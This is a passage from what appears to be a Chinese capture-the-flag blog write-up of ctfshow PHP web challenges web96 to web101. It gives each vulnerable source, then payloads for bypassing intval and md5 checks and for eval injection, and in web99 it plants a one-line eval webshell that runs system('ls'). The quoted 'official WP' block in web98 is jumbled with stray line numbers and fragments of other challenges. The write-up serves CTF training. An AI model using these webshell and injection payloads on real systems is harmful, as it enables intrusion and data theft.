&#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>)===<span class="number">4476</span>)&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-9"><a href="#解题-9" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="number">1</span>.绕过数字封锁，使用八进制进行绕过</span><br><span class="line"><span class="number">2</span>.绕过<span class="number">0</span>和字母封锁，使用 <span class="string">&quot;+&quot;</span> 进行绕过</span><br><span class="line">?num=+<span class="number">010574</span></span><br></pre></td></tr></table></figure>

<h1 id="web96"><a href="#web96" class="headerlink" title="web96"></a>web96</h1><h2 id="原始信息-13"><a href="#原始信息-13" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;u&#x27;</span>]))&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;u&#x27;</span>]==<span class="string">&#x27;flag.php&#x27;</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="title function_ invoke__">highlight_file</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;u&#x27;</span>]);</span><br><span class="line">    &#125;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-10"><a href="#解题-10" class="headerlink" title="解题"></a>解题</h2><p>比较简单，直接读取即可。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?u=./flag.php</span><br></pre></td></tr></table></figure>

<h1 id="web97"><a href="#web97" class="headerlink" title="web97"></a>web97</h1><h2 id="原始信息-14"><a href="#原始信息-14" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;a&#x27;</span>]) <span class="keyword">and</span> <span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;b&#x27;</span>])) &#123;</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_POST</span>[<span class="string">&#x27;a&#x27;</span>] != <span class="variable">$_POST</span>[<span class="string">&#x27;b&#x27;</span>])</span><br><span class="line"><span class="keyword">if</span> (<span class="title function_ invoke__">md5</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;a&#x27;</span>]) === <span class="title function_ invoke__">md5</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;b&#x27;</span>]))</span><br><span class="line"><span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line"><span class="keyword">print</span> <span class="string">&#x27;Wrong.&#x27;</span>;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-11"><a href="#解题-11" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">// 存在检测</span></span><br><span class="line"><span class="keyword">if</span> (<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;a&#x27;</span>]) <span class="keyword">and</span> <span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;b&#x27;</span>])) &#123;</span><br><span class="line"><span class="comment">// 不相等</span></span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_POST</span>[<span class="string">&#x27;a&#x27;</span>] != <span class="variable">$_POST</span>[<span class="string">&#x27;b&#x27;</span>])</span><br><span class="line"><span class="comment">// 强比较md5值</span></span><br><span class="line"><span class="keyword">if</span> (<span class="title function_ invoke__">md5</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;a&#x27;</span>]) === <span class="title function_ invoke__">md5</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;b&#x27;</span>]))</span><br><span class="line"><span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line"><span class="keyword">print</span> <span class="string">&#x27;Wrong.&#x27;</span>;</span><br><span class="line">&#125;</span><br><span class="line"><span class="comment">// 这是存粹的单个单个的比较，这里尝试数组绕过md5.</span></span><br><span class="line"><span class="comment">// 1.数组值不同，所以说POST值不同</span></span><br><span class="line"><span class="comment">// 2.两个都是数组，md5函数无法处理，同时为false</span></span><br></pre></td></tr></table></figure>

<p>poc：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">POST:a[]=<span class="number">1</span>&amp;b[]=<span class="number">2</span></span><br><span class="line"><span class="keyword">return</span>:ctfshow&#123;<span class="number">48116617</span>-<span class="number">7920</span>-<span class="number">4e46</span>-a2ef-<span class="number">937761</span>aba639&#125;</span><br></pre></td></tr></table></figure>

<h1 id="web98"><a href="#web98" class="headerlink" title="web98"></a>web98</h1><h2 id="原始信息-15"><a href="#原始信息-15" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="variable">$_GET</span>?<span class="variable">$_GET</span>=&amp;<span class="variable">$_POST</span>:<span class="string">&#x27;flag&#x27;</span>;</span><br><span class="line"><span class="variable">$_GET</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>?<span class="variable">$_GET</span>=&amp;<span class="variable">$_COOKIE</span>:<span class="string">&#x27;flag&#x27;</span>;</span><br><span class="line"><span class="variable">$_GET</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>?<span class="variable">$_GET</span>=&amp;<span class="variable">$_SERVER</span>:<span class="string">&#x27;flag&#x27;</span>;</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;HTTP_FLAG&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>?<span class="variable">$flag</span>:<span class="keyword">__FILE__</span>);</span><br></pre></td></tr></table></figure>

<h2 id="解题-12"><a href="#解题-12" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">// 如果存在GET数组，把POST数组赋值给它</span></span><br><span class="line"><span class="comment">// 如果不存在，</span></span><br><span class="line"><span class="variable">$_GET</span>?<span class="variable">$_GET</span>=&amp;<span class="variable">$_POST</span>:<span class="string">&#x27;flag&#x27;</span>;</span><br><span class="line"><span class="variable">$_GET</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>?<span class="variable">$_GET</span>=&amp;<span class="variable">$_COOKIE</span>:<span class="string">&#x27;flag&#x27;</span>;</span><br><span class="line"><span class="variable">$_GET</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>?<span class="variable">$_GET</span>=&amp;<span class="variable">$_SERVER</span>:<span class="string">&#x27;flag&#x27;</span>;</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;HTTP_FLAG&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>?<span class="variable">$flag</span>:<span class="keyword">__FILE__</span>);</span><br></pre></td></tr></table></figure>

<p>这里看不大懂，WP简单如下：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET: ?HTTP_FLAG=flag</span><br><span class="line">POST: HTTP_FLAG=flag</span><br></pre></td></tr></table></figure>

<p>这是利用报错回显了flag。</p>
<p>官方的WP：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">https:<span class="comment">//www.php.cn/php-notebook-172859.html https://www.php.cn/php-weizijiaocheng-383293.html </span></span><br><span class="line">考点是PHP里面的三元运算符和传址(引用) 传址(引用)</span><br><span class="line">有点像c语言里面的地址 我们可以修改一下代码</span><br><span class="line"></span><br><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="keyword">include</span>(<span class="string">&#x27;flag.php&#x27;</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$_GET</span>)&#123;</span><br><span class="line"><span class="variable">$_GET</span>=&amp;<span class="variable">$_POST</span>;<span class="comment">//只要有输入的get参数就将get方法改变为post方法(修改了get方法的地址)</span></span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line"><span class="string">&quot;flag&quot;</span>;</span><br><span class="line">&#125; </span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>)&#123;</span><br><span class="line"><span class="variable">$_GET</span>=&amp;<span class="variable">$_COOKIE</span>;</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line"><span class="string">&#x27;flag&#x27;</span>;</span><br><span class="line"><span class="number">1</span> <span class="number">2</span> <span class="number">3</span> <span class="number">4</span> <span class="number">5</span> <span class="number">6</span> <span class="number">7</span> <span class="number">8</span> <span class="number">9</span></span><br><span class="line"><span class="number">10</span></span><br><span class="line"><span class="number">11</span></span><br><span class="line"></span><br><span class="line">所以我们只需要 GET一个?HTTP_FLAG=flag 加 POST一个HTTP_FLAG=flag</span><br><span class="line">中间的代码没有作用，因为我们不提交 flag 参数</span><br><span class="line"></span><br><span class="line">web99 payload: </span><br><span class="line">    get : ?n=<span class="number">1</span>.php</span><br><span class="line">    post:content=<span class="meta">&lt;?php</span> <span class="title function_ invoke__">system</span>(<span class="variable">$_POST</span>[<span class="number">1</span>]);<span class="meta">?&gt;</span></span><br><span class="line"></span><br><span class="line">web100</span><br><span class="line">    这道题基本上没有对参数进行过滤,所以直接执行命令</span><br><span class="line">    payload:</span><br><span class="line"></span><br><span class="line">web101</span><br><span class="line">    https:<span class="comment">//segmentfault.com/q/1010000000770535</span></span><br><span class="line">    考察使用函数打印对象里面的属性。</span><br><span class="line">    我们可以出<span class="number">100</span>的题里面看到提示，ctfshow.php里面就只有属性。并且最后的属性就是flag.</span><br><span class="line">    我们可以使用Reflectionclass类，打印类的结构</span><br><span class="line">    payload:</span><br><span class="line">    &#125; <span class="keyword">if</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;flag&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>)&#123;</span><br><span class="line">        <span class="variable">$_GET</span>=&amp;<span class="variable">$_SERVER</span>;</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="string">&#x27;flag&#x27;</span>;</span><br><span class="line">    &#125; </span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;HTTP_FLAG&#x27;</span>]==<span class="string">&#x27;flag&#x27;</span>)&#123;<span class="comment">//需要满足这个条件就可以输出flag</span></span><br><span class="line">        <span class="title function_ invoke__">highlight_file</span>(<span class="variable">$flag</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    所以我们只需要 GET一个?HTTP_FLAG=flag 加 POST一个HTTP_FLAG=flag 中间的代码没有作用，因为我们不提交 flag 参数</span><br><span class="line"></span><br></pre></td></tr></table></figure>


<h1 id="web99-写入型"><a href="#web99-写入型" class="headerlink" title="web99-写入型"></a>web99-写入型</h1><h2 id="原始信息-16"><a href="#原始信息-16" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="variable">$allow</span> = <span class="keyword">array</span>();</span><br><span class="line"><span class="keyword">for</span> (<span class="variable">$i</span>=<span class="number">36</span>; <span class="variable">$i</span> &lt; <span class="number">0x36d</span>; <span class="variable">$i</span>++) &#123; </span><br><span class="line">    <span class="title function_ invoke__">array_push</span>(<span class="variable">$allow</span>, <span class="title function_ invoke__">rand</span>(<span class="number">1</span>,<span class="variable">$i</span>));</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;n&#x27;</span>]) &amp;&amp; <span class="title function_ invoke__">in_array</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;n&#x27;</span>], <span class="variable">$allow</span>))&#123;</span><br><span class="line">    <span class="title function_ invoke__">file_put_contents</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;n&#x27;</span>], <span class="variable">$_POST</span>[<span class="string">&#x27;content&#x27;</span>]);</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-13"><a href="#解题-13" class="headerlink" title="解题"></a>解题</h2><p>新的类型，初开的简单题。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="variable">$allow</span> = <span class="keyword">array</span>();</span><br><span class="line"><span class="comment"># 数字鉴定</span></span><br><span class="line"><span class="keyword">for</span> (<span class="variable">$i</span>=<span class="number">36</span>; <span class="variable">$i</span> &lt; <span class="number">0x36d</span>; <span class="variable">$i</span>++) &#123; </span><br><span class="line">    <span class="title function_ invoke__">array_push</span>(<span class="variable">$allow</span>, <span class="title function_ invoke__">rand</span>(<span class="number">1</span>,<span class="variable">$i</span>));</span><br><span class="line">&#125;</span><br><span class="line"><span class="comment"># 获取n参数，并且把n参数放到数字参数去鉴定是否正确</span></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;n&#x27;</span>]) &amp;&amp; <span class="title function_ invoke__">in_array</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;n&#x27;</span>], <span class="variable">$allow</span>))&#123;</span><br><span class="line">	<span class="comment"># 写入文件内容</span></span><br><span class="line">    <span class="title function_ invoke__">file_put_contents</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;n&#x27;</span>], <span class="variable">$_POST</span>[<span class="string">&#x27;content&#x27;</span>]);</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<p>只要在写入一个一句话木马就gameover了。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:?n=<span class="number">10</span>.php</span><br><span class="line">POST:content=<span class="meta">&lt;?php</span> <span class="keyword">eval</span>(<span class="variable">$_POST</span>[<span class="number">1</span>])<span class="meta">?&gt;</span></span><br><span class="line">    </span><br><span class="line">上面那样子就已经写入一个脚本了。</span><br><span class="line">    </span><br><span class="line">后面就算常规的一句话木马的测试了。</span><br><span class="line"></span><br><span class="line">get:/<span class="number">10</span>.php</span><br><span class="line">post:<span class="number">1</span>=<span class="title function_ invoke__">system</span>(<span class="string">&#x27;ls&#x27;</span>);</span><br><span class="line"><span class="keyword">return</span>:<span class="number">10</span>.php flag36d.php index.php </span><br><span class="line"></span><br><span class="line">get:/<span class="number">10</span>.php</span><br><span class="line">post:<span class="number">1</span>=<span class="title function_ invoke__">var_dump</span>(<span class="title function_ invoke__">file_get_contents</span>(<span class="string">&#x27;flag36d.php&#x27;</span>));</span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;0f4f09b5-aed0-4f02-9aa7-dfffb28e0cc4&#125;&quot;</span>;<span class="string">&quot;</span></span><br></pre></td></tr></table></figure>


<h1 id="web100"><a href="#web100" class="headerlink" title="web100"></a>web100</h1><h2 id="原始信息-17"><a href="#原始信息-17" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;ctfshow.php&quot;</span>);</span><br><span class="line"><span class="comment">//flag in class ctfshow;</span></span><br><span class="line"><span class="variable">$ctfshow</span> = <span class="keyword">new</span> <span class="title function_ invoke__">ctfshow</span>();</span><br><span class="line"><span class="variable">$v1</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line"><span class="variable">$v2</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"><span class="variable">$v3</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line"><span class="variable">$v0</span>=<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v3</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$v0</span>)&#123;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/\;/&quot;</span>, <span class="variable">$v2</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/\;/&quot;</span>, <span class="variable">$v3</span>))&#123;</span><br><span class="line">            <span class="keyword">eval</span>(<span class="string">&quot;<span class="subst">$v2</span>(&#x27;ctfshow&#x27;)<span class="subst">$v3</span>&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;   </span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-14"><a href="#解题-14" class="headerlink" title="解题"></a>解题</h2><p>源码分析：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//flag in class ctfshow;</span></span><br><span class="line"><span class="variable">$ctfshow</span> = <span class="keyword">new</span> <span class="title function_ invoke__">ctfshow</span>();</span><br><span class="line"><span class="variable">$v1</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line"><span class="variable">$v2</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"><span class="variable">$v3</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line"><span class="comment">// 确定传入的参数是否为整数</span></span><br><span class="line"><span class="comment"># 因为赋值的优先级高于逻辑运算，将优先处理is_numeric($v1)赋为$0的值 </span></span><br><span class="line"><span class="variable">$v0</span>=<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v3</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$v0</span>)&#123;</span><br><span class="line">    <span class="comment">//正则表达式过滤</span></span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/\;/&quot;</span>, <span class="variable">$v2</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/\;/&quot;</span>, <span class="variable">$v3</span>))&#123;</span><br><span class="line">            <span class="comment">//字符串格式化执行</span></span><br><span class="line">            <span class="keyword">eval</span>(<span class="string">&quot;<span class="subst">$v2</span>(&#x27;ctfshow&#x27;)<span class="subst">$v3</span>&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;   </span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<p>看似有is_numeric，实则跟没有差不多。</p>
<p>当前两项是false时，后面再来一个false，$v0依然是true。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:</span><br><span class="line">	?v1=<span class="number">21</span></span><br><span class="line">	&amp;v2=<span class="title function_ invoke__">var_dump</span>(<span class="title function_ invoke__">scandir</span>(<span class="title function_ invoke__">pos</span>(<span class="title function_ invoke__">localeconv</span>())))<span class="comment">/*</span></span><br><span class="line"><span class="comment">	&amp;v3=*/</span>;</span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">	<span class="keyword">array</span>(<span class="number">5</span>) &#123; [<span class="number">0</span>]=&gt; <span class="keyword">string</span>(<span class="number">1</span>) <span class="string">&quot;.&quot;</span> [<span class="number">1</span>]=&gt; <span class="keyword">string</span>(<span class="number">2</span>) <span class="string">&quot;..&quot;</span> [<span class="number">2</span>]=&gt; <span class="keyword">string</span>(<span class="number">11</span>) <span class="string">&quot;ctfshow.php&quot;</span> [<span class="number">3</span>]=&gt; <span class="keyword">string</span>(<span class="number">11</span>) <span class="string">&quot;flag36d.php&quot;</span> [<span class="number">4</span>]=&gt; <span class="keyword">string</span>(<span class="number">9</span>) <span class="string">&quot;index.php&quot;</span> &#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">GET:</span><br><span class="line">	?v1=<span class="number">21</span></span><br><span class="line">	&amp;v2=<span class="title function_ invoke__">var_dump</span>(<span class="title function_ invoke__">file_get_contents</span>(<span class="string">&#x27;flag36d.php&#x27;</span>))<span class="comment">/*</span></span><br><span class="line"><span class="comment">	&amp;v3=*/</span>;</span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">	<span class="variable">$flag</span>=<span class="string">&quot;flag_here&quot;</span>;<span class="string">&quot;</span></span><br><span class="line"><span class="string">	</span></span><br><span class="line"><span class="string">#试着去读取环境变量</span></span><br><span class="line"><span class="string">GET:</span></span><br><span class="line"><span class="string">	?v1=21</span></span><br><span class="line"><span class="string">	&amp;v2=var_dump(getenv)/*</span></span><br><span class="line"><span class="string">	&amp;v3=*/;</span></span><br><span class="line"><span class="string">return:</span></span><br><span class="line"><span class="string">	array(19) &#123;</span></span><br><span class="line"><span class="string">          [&quot;</span>PHP_EXTRA_CONFIGURE_ARGS<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(77) &quot;</span>--enable-fpm --with-fpm-user=www-data --with-fpm-group=www-data --disable-cgi<span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>HOSTNAME<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(12) &quot;</span><span class="number">49</span>bf31952b5a<span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>PHP_INI_DIR<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(18) &quot;</span>/usr/local/etc/php<span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>SHLVL<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(1) &quot;</span><span class="number">1</span><span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>HOME<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(14) &quot;</span>/home/www-data<span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>PHP_LDFLAGS<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(12) &quot;</span>-Wl,-O1 -pie<span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>PHP_CFLAGS<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(83) &quot;</span>-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=<span class="number">64</span><span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>PHP_MD5<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(0) &quot;</span><span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>PHP_VERSION<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(6) &quot;</span><span class="number">7.3</span>.<span class="number">22</span><span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>GPG_KEYS<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(81) &quot;</span>CBAF69F173A0FEA4B537F470D66C9593118BCCB6 F38252826ACD957EF380D39F2F7956BC5DA04B5D<span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>PHP_CPPFLAGS<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(83) &quot;</span>-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=<span class="number">64</span><span class="string">&quot;</span></span><br><span class="line"><span class="string">          [&quot;</span>PHP_ASC_URL<span class="string">&quot;]=&gt;</span></span><br><span class="line"><span class="string">          string(55) &quot;</span>https:<span class="comment">//www.php.net/distributions/php-7.3.22.tar.xz.asc&quot;</span></span><br><span class="line">          [<span class="string">&quot;PHP_URL&quot;</span>]=&gt;</span><br><span class="line">          <span class="keyword">string</span>(<span class="number">51</span>) <span class="string">&quot;https://www.php.net/distributions/php-7.3.22.tar.xz&quot;</span></span><br><span class="line">          [<span class="string">&quot;PATH&quot;</span>]=&gt;</span><br><span class="line">          <span class="keyword">string</span>(<span class="number">60</span>) <span class="string">&quot;/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&quot;</span></span><br><span class="line">          [<span class="string">&quot;PHPIZE_DEPS&quot;</span>]=&gt;</span><br><span class="line">          <span class="keyword">string</span>(<span class="number">78</span>) <span class="string">&quot;autoconf 		dpkg-dev dpkg 		file 		g++ 		gcc 		libc-dev 		make 		pkgconf 		re2c&quot;</span></span><br><span class="line">          [<span class="string">&quot;PWD&quot;</span>]=&gt;</span><br><span class="line">          <span class="keyword">string</span>(<span class="number">13</span>) <span class="string">&quot;/var/www/html&quot;</span></span><br><span class="line">          [<span class="string">&quot;PHP_SHA256&quot;</span>]=&gt;</span><br><span class="line">          <span class="keyword">string</span>(<span class="number">64</span>) <span class="string">&quot;0e66606d3bdab5c2ae3f778136bfe8788e574913a3d8138695e54d98562f1fb5&quot;</span></span><br><span class="line">          [<span class="string">&quot;FLAG&quot;</span>]=&gt;</span><br><span class="line">          <span class="keyword">string</span>(<span class="number">8</span>) <span class="string">&quot;not_flag&quot;</span></span><br><span class="line">          [<span class="string">&quot;USER&quot;</span>]=&gt;</span><br><span class="line">          <span class="keyword">string</span>(<span class="number">8</span>) <span class="string">&quot;www-data&quot;</span></span><br><span class="line">        &#125;</span><br><span class="line"><span class="comment"># 读取类</span></span><br><span class="line"><span class="comment"># new ctfshow 和 $ctfshow的写法结果相同</span></span><br><span class="line">GET:</span><br><span class="line">	?v1=<span class="number">21</span></span><br><span class="line">	&amp;v2=<span class="title function_ invoke__">var_dump</span>(<span class="variable">$ctfshow</span>)<span class="comment">/*</span></span><br><span class="line"><span class="comment">	&amp;v3=*/</span>;</span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">	<span class="keyword">object</span>(ctfshow)<span class="comment">#2 (3) &#123; [&quot;dalaoA&quot;]=&gt; NULL [&quot;dalaoB&quot;]=&gt; NULL [&quot;flag_is_fb58e3360x2d850d0x2d4a2c0x2d90480x2d67acee324269&quot;]=&gt; NULL &#125; </span></span><br><span class="line"> </span><br><span class="line">转化下得到的东西：<span class="string">&#x27;0x2d&#x27;</span> -&gt; <span class="string">&#x27;-&#x27;</span></span><br><span class="line">fb58e3360x2d850d0x2d4a2c0x2d90480x2d67acee324269</span><br><span class="line">fb58e336-<span class="number">850</span>d-<span class="number">4</span>a2c-<span class="number">9048</span>-<span class="number">67</span>acee324269</span><br><span class="line">=&gt; ctfshow&#123;fb58e336-<span class="number">850</span>d-<span class="number">4</span>a2c-<span class="number">9048</span>-<span class="number">67</span>acee324269&#125;</span><br></pre></td></tr></table></figure>

<h1 id="web101"><a href="#web101" class="headerlink" title="web101"></a>web101</h1><h2 id="原始信息-18"><a href="#原始信息-18" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;ctfshow.php&quot;</span>);</span><br><span class="line"><span class="comment">//flag in class ctfshow;</span></span><br><span class="line"><span class="variable">$ctfshow</span> = <span class="keyword">new</span> <span class="title function_ invoke__">ctfshow</span>();</span><br><span class="line"><span class="variable">$v1</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line"><span class="variable">$v2</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"><span class="variable">$v3</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line"><span class="variable">$v0</span>=<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>) <span class="keyword">and</span> <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v3</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$v0</span>)&#123;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\&#123;|\[|\&quot;|\&#x27;|\,|\.|\;|\?|[0-9]/&quot;</span>, <span class="variable">$v2</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span 